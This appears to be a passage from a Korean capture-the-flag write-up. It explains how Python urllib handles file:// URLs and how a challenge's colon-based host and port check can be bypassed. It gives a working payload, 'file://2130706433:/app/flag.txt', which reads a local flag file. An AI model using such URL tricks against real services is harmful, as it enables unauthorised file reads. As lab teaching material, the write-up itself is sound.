 ```python
    except OSError as exp:
        raise URLError(exp)
    raise URLError('file not on local host') # <--- 1532 lines
```

정상 수행을 위해서는 아래의 코드로 넘어가야할 것으로 보인다.

```python
if host:
    host, port = _splitport(host)
if host or \
    (port and _safe_gethostbyname(host) in self.get_names()):
    if host:
        origurl = 'file://' + host + filename
    else:
        origurl = 'file://' + filename
    return addinfourl(open(localfile, 'rb'), headers, origurl)
```

조건문을 확인하면 **host**나 **port**가 없을 경우에만 가능한 것으로 보인다.

**port**를 없애기 위해 `file://2130706433/app/flag.txt`를 보내면 아래와 같이 **port**가 아예 구분되지 않았기에 문제가 에러가 발생한다.

```
Traceback (most recent call last):
  File "c:\Users\usr\Desktop\NSHC\File\test.py", line 32, in <module>
    (host, port) = get_host_port(url)
    ^^^^^^^^^^^^
ValueError: not enough values to unpack (expected 2, got 1)
```

```python
def get_host_port(url):
    return url.split('://')[1].split('/')[0].lower().split(':')
```

문제에서 주어진 코드 중 host와 port를 구분하기 위한 코드이다. 이를 확인해보면 `.split(':')`와 같이 콜론을 통해 구분짓기에 콜론은 반드시 필요하게 된다.

`file://2130706433:/app/flag.txt`로 하게 되면 콜론을 기준으로 값이 없는 것이 아닌 **NULL**로 되어 정상적으로 통신이 되며 플래그를 가져올 수 있게 된다.